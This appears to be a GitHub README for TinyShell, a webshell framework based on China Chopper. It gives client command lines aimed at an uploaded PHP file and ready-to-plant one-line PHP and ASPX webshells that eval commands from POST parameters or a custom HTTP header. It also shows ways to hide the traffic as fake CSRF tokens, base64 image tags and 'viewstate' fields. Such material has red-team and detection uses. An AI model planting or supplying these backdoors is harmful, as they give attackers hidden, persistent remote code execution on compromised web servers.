 # TinyShell

## New idea based on 

 - SubShell webshell framework
 - China Chopper Webshell (https://www.fireeye.com/blog/threat-research/2013/08/breaking-down-the-china-chopper-web-shell-part-i.html)

## Major Changes

 - All functions passed as code to be evaluated on server
 - Reduces server side code to potentially 1 line
 - new 'shell' code can be added to any page on a site

## Encoding Header Examples

### Fake CSRF Token hidden in comment

```python
rsp_header = '<!-- csrf_token='
rsp_footer = ' -->'
```

### Base64 IMG tag

```python
rsp_header = '<img src="data:image/gif base64'
rsp_footer = '"/>'
```

### Commandline Examples

#### Clear text POST parameter (password) used to deliver commands

python tinyshell.py --url=http://10.0.2.10/bricks/upload/uploads/s.php --language=php

#### Base64 Encoded POST Parameter (viewstate) used to deliver commands

python tinyshell.py --url=http://10.0.2.10/bricks/upload/uploads/s.php --language=php --password=viewstate --mode=base64_post

#### Base64 Encoded HTTP HEADER (PESSSION) used to deliver commands

python tinyshell.py --url=http://10.0.2.10/bricks/upload/uploads/s.php --language=php --password=psession --mode=base64_header

## Server side examples (webshell)

# Clear Text POST parameter

```php
<?php @eval($_POST['password']);?>
```

# Base64 Encoded POST parameter

```php
<?php @eval(base64_decode($_POST['password']));?>
```

# Base64 Encoded HEADER parameter

```php
<?php @eval(base64_decode($_SERVER['HTTP_PSESSION']));?>

```

 ```aspx
 <%@ Page Language="Jscript"%><%eval(Request.Item["password"],"unsafe");%>
 ```